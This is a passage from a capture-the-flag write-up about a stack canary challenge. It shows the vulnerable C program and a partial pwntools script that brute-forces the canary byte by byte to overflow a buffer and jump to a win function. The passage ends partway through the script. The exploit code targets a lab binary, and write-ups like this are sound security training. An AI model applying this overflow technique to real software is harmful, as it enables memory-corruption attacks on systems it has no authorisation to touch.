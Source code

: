 ```c
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

From the source code there's two different approaches to take; we can brute force the stack canary or since the exploit must be run locally, we can abuse relative paths.

```python
canary_offset = 32
eip_offset = 16 #offset from canary
win_addr = 0x080486eb
canary = 0x2c567834

def oracle():
    canary = ''
    guess = 0x00
    payload = ''
    payload += 'A'*canary_offset

    #brute force next 4 addresses
    while len(canary) < 4:
        while guess != 0xff:
            r = process(name,env={})

            r.recvuntil('?\n> ')
            r.sendline('36')

            r.recvuntil("Input> ")
            r.sendline(payload + p8(guess))

            result = r.recvline() #either "stack smashing detected" or "where's the flag?"
            print result
            r.close()
            log.info("Sent: %s" % hex(guess))

            if 'Corrupt!' in result:
```